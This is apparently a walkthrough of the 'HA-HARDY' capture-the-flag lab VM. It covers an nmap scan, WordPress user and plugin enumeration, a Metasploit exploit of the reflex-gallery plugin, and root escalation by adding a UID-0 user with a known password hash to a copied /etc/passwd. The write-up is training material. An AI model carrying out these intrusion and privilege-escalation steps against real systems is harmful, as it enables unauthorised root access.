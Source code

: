 # HA-HARDY

Lets Check the IP address of the victim machine ⤵️

![Untitled](HA-HARDY/Untitled.png)

```
IP : 10.0.2.36
```

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/ha_hardy]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.36
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-26 21:19 IST
Nmap scan report for 10.0.2.36
Host is up (0.00060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 08:00:27:D4:FE:FC (Oracle VirtualBox virtual NIC)
```

## Web Enumeration ⬇️

![Untitled](HA-HARDY/Untitled%201.png)

got a directory —> `/wordpress/` 

![Untitled](HA-HARDY/Untitled%202.png)

with wpscan tool I got 2 users ➡️

![Untitled](HA-HARDY/Untitled%203.png)

I also found a vulnerability through wpscan in `reflex-gallery plugins` of wordpress so lets exploit it now >>

![Untitled](HA-HARDY/Untitled%204.png)

Now with metasploit I exploit this >>

![Untitled](HA-HARDY/Untitled%205.png)

![Untitled](HA-HARDY/Untitled%206.png)

Now lets run this ⤵️

![Untitled](HA-HARDY/Untitled%207.png)

Now lets look into `wp-config.php` file ➡️

![Untitled](HA-HARDY/Untitled%208.png)

![Untitled](HA-HARDY/Untitled%209.png)

Now let’s see the SUID’s files ➡️

![Untitled](HA-HARDY/Untitled%2010.png)

So I think with this I will copy the /etc/passwd file , access with wget and modify with new user addon.

Now let’s access the passwd file in attackers machine ⤵️

![Untitled](HA-HARDY/Untitled%2011.png)

Now lets add a user named as `shiv` and `password`as password in passwd file. 

![Untitled](HA-HARDY/Untitled%2012.png)

Lets see the passwd file ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/ha_hardy]
└─$ cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
cups-pk-helper:x:110:116:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:112:117::/nonexistent:/bin/false
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:114:119::/var/lib/saned:/usr/sbin/nologin
pulse:x:115:120:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:117:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:118:7:HPLIP system user,,,:/var/run/hplip:/bin/false
geoclue:x:119:124::/var/lib/geoclue:/usr/sbin/nologin
gnome-initial-setup:x:120:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:121:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
raj:x:1000:1000:raj,,,:/home/raj:/bin/bash
mysql:x:122:128:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:124:65534::/run/sshd:/usr/sbin/nologin
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```

Now let’s transfer this file ➡️

![Untitled](HA-HARDY/Untitled%2013.png)

![Untitled](HA-HARDY/Untitled%2014.png)

```bash
root@ubuntu:~# cat proof.txt
cat proof.txt
_________________________________________________________________________
 _____     _   _   U _____ u     U _____ u   _   _       ____     	|	
 |_ " _|   |'| |'|  \| ___"|/     \| ___"|/  | \ |"|     |  _"\   	|
   | |    /| |_| |\  |  _|"        |  _|"   <|  \| |>   /| | | |  	|	
  /| |\   U|  _  |u  | |___        | |___   U| |\  |u   U| |_| |\ 	|
 u |_|U    |_| |_|   |_____|       |_____|   |_| \_|     |____/ u 	|
 _// \\_   //   \\   <<   >>       <<   >>   ||   \\,-.   |||_    	|
(__) (__) (_") ("_) (__) (__)     (__) (__)  (_")  (_/   (__)_)   	|
									|
									|
!! Congrats you have finished this task !!				|
									|
Contact us here:							|
									|
Hacking Articles : https://twitter.com/rajchandel/			|
									|
									|
+-+-+-+-+-+ +-+-+-+-+-+-+-+						|
 |E|n|j|o|y| |H|A|C|K|I|N|G|						|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+						|
________________________________________________________________________|

                                                

root@ubuntu:~#
```